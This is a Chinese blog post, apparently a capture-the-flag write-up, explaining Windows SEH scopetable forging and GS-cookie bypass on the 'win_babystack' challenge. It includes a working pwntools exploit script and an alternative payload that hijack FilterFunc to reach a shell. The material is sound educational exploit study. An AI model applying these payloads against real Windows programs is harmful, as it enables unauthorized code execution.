





武汉加油！湖北加油！
被疫情隔离在家，很久之前就学会了，但是一直没有时间写，现在终于有时间写一写了。
这个利用其实和linux下的利用差别还是很大的，要控制好几个结构体，要利用到SEH链。
先给大家推荐两篇文章吧，我就是照着这两篇文章学习的，这里只是把这两盘文章写的不够详细或者我觉得我难以理解的地方指出来，并且加以总结。
https://www.anquanke.com/post/id/188170
http://blog.eonew.cn/archives/1182
首先要了解一下这几个结构体。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 struct _EH4_SCOPETABLE { DWORD GSCookieOffset; DWORD GSCookieXOROffset; DWORD EHCookieOffset; DWORD EHCookieXOROffset; _EH4_SCOPETABLE_RECORD ScopeRecord[1 ]; }; struct _EH4_SCOPETABLE_RECORD { DWORD EnclosingLevel; long (*FilterFunc)(); union { void (*HandlerAddress)(); void (*FinallyFunc)(); }; };
这些结构体的是SHE储存的信息，并且这些值是存储在rdata段的，其中_EH4_SCOPETABLE_RECORD存储的是异常处理的函数，当发生异常时，就会调用这个结构体存储的函数。还有注意看嗷,__EH4_SCOPETABLE里面结构体的内容有一项 _EH4_SCOPETABLE_RECORD ScopeRecord[1],也就是这里直接将 _EH4_SCOPETABLE_RECORD的值存进去了
也就是可以这么理解了，虽然这里不怎么准确，但是我们伪造SCOPETABLE的时候就可以这么伪造了
1 2 3 4 5 6 7 8 9 10 11 12 struct _EH4_SCOPETABLE { DWORD GSCookieOffset; DWORD GSCookieXOROffset; DWORD EHCookieOffset; DWORD EHCookieXOROffset; DWORD EnclosingLevel; long (*FilterFunc)(); union { void (*HandlerAddress)(); void (*FinallyFunc)(); }; };
这里我们主要劫持long (*FilterFunc)();
关于如何选择存储信息来判断代码的正确性，下面则是选择逻辑。
说实话，直接看的有点生硬，还是结合题目来理解。
例子就是这道win_babystack
题目链接:babystack.zip

这一道题最初给了main函数地址和stack地址。
大大降低了我们难度。
然后这下面还有任意地址泄露，说明确实是个baby题

然后漏洞在这里

这里通过v9输入，我们能控制seh在栈上的布局，从而劫持程序流程。
具体利用方式在于控制栈上seh的结构体。
我们首先来分析一下栈上的有哪些seh的值。

图中，1的值是返回地址，2是ebp，3是security_cookie^scopetable_address的值。在程序中存放security_cookie的位置是固定的，这位置是在data段，但是值不固定。
我们这里知道了main函数的地址，则我们可以通过泄露将security_cookie给泄露出来。
然后我们还要泄露Next的值，很多个异常处理块都是通过下图来连接在一块，这个Next的值是在栈上的，ebp-0x1c的地方，我们要修改scopetable_address，是一定会将这个地方覆盖的，但是我们程序会检查Next的值，所以我们要将这个地方泄露出来，然后原封不动的写回去。

说到这里，给的链接上面也讲的挺详细的，我这里就讲讲这些文章我看的比较迷糊的地方
先研究一下其他博客的exp吧，毕竟我也是学着别人的。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 from pwn import *context.arch = 'i386' sh = remote('192.168.80.133' , 1001 ) def get_value (addr) : sh.recvuntil('Do you want to know more?' ) sh.sendline('yes' ) sh.recvuntil('Where do you want to know' ) sh.sendline(str(addr)) sh.recvuntil('value is ' ) return int(sh.recvline(), 16 ) sh.recvuntil('stack address =' ) result = sh.recvline() stack_addr = int(result, 16 ) log.success('stack_addr: ' + hex(stack_addr)) sh.recvuntil('main address =' ) result = sh.recvline() main_address = int(result, 16 ) log.success('main_address: ' + hex(main_address)) security_cookie = get_value(main_address + 12116 ) log.success('security_cookie: ' + hex(security_cookie)) pause() sh.sendline('n' ) next_addr = stack_addr + 212 log.success('next_addr: ' + hex(next_addr)) SCOPETABLE = [ 0x0FFFFFFFE , 0 , 0x0FFFFFFCC , 0 , 0xFFFFFFFE , main_address + 733 , ] payload = 'a' * 16 + flat(SCOPETABLE).ljust(104 - 16 , 'a' ) + p32((stack_addr + 156 ) ^ security_cookie) + 'c' * 32 + p32(next_addr) + p32(main_address + 944 ) + p32((stack_addr + 16 ) ^ security_cookie) + p32(0 ) + 'b' * 16 sh.sendline(payload) sh.recvline() sh.sendline('yes' ) sh.recvuntil('Where do you want to know' ) sh.sendline('0' ) sh.interactive()
其实这个exp大部分很好懂，当时我卡了很久的地方就是payload的构造部分，相信你们也看到了，不同文章的payload不同。我们先对比两个不一样的payload吧。
1 2 3 4 5 6 7 8 9 10 11 SCOPETABLE = [ 0x0FFFFFFFE , 0 , 0x0FFFFFFCC , 0 , 0xFFFFFFFE , main_address + 733 , ] payload = 'a' * 16 + flat(SCOPETABLE).ljust(104 - 16 , 'a' ) + p32((stack_addr + 156 ) ^ security_cookie) + 'c' * 32 + p32(next_addr) + p32(main_address + 944 ) + p32((stack_addr + 16 ) ^ security_cookie) + p32(0 ) + 'b' * 16 sh.sendline(payload)
1 2 3 4 5 6 7 8 9 SEH_scope_table = p32(0x0FFFFFFE4 ) SEH_scope_table += p32(0 ) SEH_scope_table += p32(0xFFFFFF20 ) SEH_scope_table += p32(0 ) SEH_scope_table += p32(0xFFFFFFFE ) SEH_scope_table += p32(shell_addr) payload = "a" *4 +SEH_scope_table.ljust(0x80 -4 ,"x22" )+p32(ebp^___security_cookie_value)+"b" *8 +p32(Next_value)+p32(main_addr + 944 )+p32((stack_addr+4 )^___security_cookie_value)+p32(0 )
对比发现两个payload大同小异，区别是ebp^security_cookie的地方不一样。起初我以为没有关系，但是我乱放之后直接导致程序崩溃。
然后我仔细分析了一下，这个ebp^security_cookie存放的地方和伪造的SCOPETABLE有关系。
当我们触发异常后，程序会调用se的处理程序，也就是ebp-0x10的地方所指向的地方，这里是不能劫持的，劫持后程序会崩溃，不信可以试试。然后我们到ebp-0x10的这个地方
1 2 3 4 5 6 7 8 9 10 11 12 .text:00401460 push ebp .text:00401461 mov ebp, esp .text:00401463 push [ebp+arg_C] .text:00401466 push [ebp+arg_8] .text:00401469 push [ebp+arg_4] .text:0040146C push [ebp+arg_0] .text:0040146F push offset @__security_check_cookie@4 ; __security_check_cookie(x) .text:00401474 push offset ___security_cookie .text:00401479 call _except_handler4_common .text:0040147E add esp, 18h .text:00401481 pop ebp .text:00401482 retn
这个地方调用了_except_handler4_common
分析一下_except_handler4_common
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 int __cdecl _except_handler4_common(unsigned int *securityCookies, void (__fastcall *cookieCheckFunction)(unsigned int ), _EXCEPTION_RECORD *exceptionRecord, unsigned __int32 sehFrame, _CONTEXT *context){ scopeTable_1 = (_EH4_SCOPETABLE *)(*securityCookies ^ *(_DWORD *)(sehFrame + 8 )); framePointer = (char *)(sehFrame + 16 ); scopeTable = scopeTable_1; ValidateLocalCookies(cookieCheckFunction, scopeTable_1, (char *)(sehFrame + 16 )); __except_validate_context_record(context); if ( exceptionRecord->ExceptionFlags & 0x66 ) { ...... } else { exceptionPointers.ExceptionRecord = exceptionRecord; exceptionPointers.ContextRecord = context; tryLevel = *(_DWORD *)(sehFrame + 12 ); *(_DWORD *)(sehFrame - 4 ) = &exceptionPointers; if ( tryLevel != -2 ) { while ( 1 ) { v8 = tryLevel + 2 * (tryLevel + 2 ); filterFunc = (int (__fastcall *)(_DWORD, _DWORD))*(&scopeTable_1->GSCookieXOROffset + v8); scopeTableRecord = (_EH4_SCOPETABLE_RECORD *)((char *)scopeTable_1 + 4 * v8); encloseingLevel = scopeTableRecord->EnclosingLevel; scopeTableRecord_1 = scopeTableRecord; if ( filterFunc ) { filterFuncRet = _EH4_CallFilterFunc(filterFunc); ...... if ( filterFuncRet > 0 ) { ...... _EH4_TransferToHandler(scopeTableRecord_1->HandlerFunc, v5 + 16 ); ...... } } ...... tryLevel = encloseingLevel; if ( encloseingLevel == -2 ) break ; scopeTable_1 = scopeTable; } ...... } } ...... }
我们重点关注的是那个验证GS的函数，将取出来的scopeTable,当作参数传入了ValidateLocalCookies，然后将ebp传入ValidateLocalCookies。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 void __cdecl ValidateLocalCookies(void (__fastcall *cookieCheckFunction)(unsigned int), _EH4_SCOPETABLE *scopeTable, char *framePointer) { unsigned int v3; // esi@2 unsigned int v4; // esi@3 if ( scopeTable->GSCookieOffset != -2 ) { v3 = *(_DWORD *)&framePointer[scopeTable->GSCookieOffset] ^ (unsigned int)&framePointer[scopeTable->GSCookieXOROffset]; __guard_check_icall_fptr(cookieCheckFunction); ((void (__thiscall *)(_DWORD))cookieCheckFunction)(v3); } v4 = *(_DWORD *)&framePointer[scopeTable->EHCookieOffset] ^ (unsigned int)&framePointer[scopeTable->EHCookieXOROffset]; __guard_check_icall_fptr(cookieCheckFunction); ((void (__thiscall *)(_DWORD))cookieCheckFunction)(v4); }
这个代码首先会判断scopeTable->GSCookieOffset 也就是scopeTable的第一个值是不是0x0FFFFFFFE，如果是着会去取scopeTable->EHCookieOffset的值作为偏移，然后ebp为数组地址，取出数组的值。然后再取出scopeTable->EHCookieXOROffset为索引的值异或。然后判断结果是不是security_cookie。同理，如果不是，则会使用scopeTable->GSCookieOffset和scopeTable->GSCookieXOROffset为索引的值异或，最后判断结果是不是security_cookie。
这里我们就很好伪造了，通常我们会让GSCookieXOROffset和EHCookieOffset为0。然后这个时候数组的值就是ebp了，然后我们伪造gs为，ebp^security就可以了。然后这个值在哪就通过先判断scopeTable->GSCookieOffset是不是-2,如果是-2,则存放的地方就是scopeTable->GSCookieOffset来决定的。如果不是-2，则是EHCookieOffset来决定。
说到这里，结构体就已经伪造完毕，用第一个payload或者第二个payload都可以，因为他们使用的方式不同。
伪造的结构体存放在哪里都可以，但是要确保，ebp-0x8的地方存放的是伪造的结构体的地址异或security_cookie的值。像payload1和payload2都是存放再栈上。
到这里所以我个人觉得含糊的地方都讲清楚了。